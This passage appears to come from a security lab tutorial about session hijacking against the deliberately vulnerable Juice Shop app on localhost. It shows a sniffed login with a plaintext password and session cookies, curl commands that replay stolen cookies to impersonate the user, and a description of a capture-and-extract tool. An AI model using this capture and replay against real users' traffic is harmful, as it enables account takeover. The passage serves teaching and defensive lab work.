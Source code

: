 **Phase 3: Cookie Capture (The Theft)**
```
What the attacker sees:
┌─────────────────────────────────────────────┐
│ POST /rest/user/login HTTP/1.1              │
│ Host: localhost:3003                        │
│ Content-Type: application/json              │
│                                             │
│ {"email":"john@example.com",                │
│  "password":"mySecretPass123"}              │ ← PASSWORD IN CLEAR TEXT!
│                                             │
│ HTTP/1.1 200 OK                             │
│ Set-Cookie: token=eyJhbGc...                │ ← SESSION COOKIE!
│ Set-Cookie: sessionId=abc123def456          │ ← ANOTHER COOKIE!
└─────────────────────────────────────────────┘

The attacker now has:
✓ Your username
✓ Your password
✓ Your session cookies
```

**Phase 4: Impersonation (Using Stolen Cookies)**
```bash
# Attacker saves your cookies to a file
echo "token=eyJhbGc..." > stolen_cookies.txt
echo "sessionId=abc123def456" >> stolen_cookies.txt

# Attacker can now access YOUR account without password:
curl -b stolen_cookies.txt http://localhost:3003/api/Challenges
curl -b stolen_cookies.txt http://localhost:3003/basket
curl -b stolen_cookies.txt http://localhost:3003/api/Users/me

# Result: Attacker is now YOU on the website!
```

#### 🛠️ How Our Lab Demonstrates This

**What the Tool Does:**

1. **Starts Packet Capture (45 seconds)**
   ```
   Like recording a video of all network traffic
   Saves everything going to/from Juice Shop
   ```

2. **Simulates Normal User Activity**
   ```
   Logs in → Session cookie received
   Browses products → Cookie sent with each request
   Adds to cart → Cookie sent again
   Views challenges → Cookie sent again
   ```

3. **Analyzes the Captured Traffic**
   ```python
   Python script examines all packets:
   - Finds all "Set-Cookie" headers
   - Extracts session tokens
   - Identifies passwords in plain text
   - Counts security vulnerabilities
   - Generates detailed report
   ```
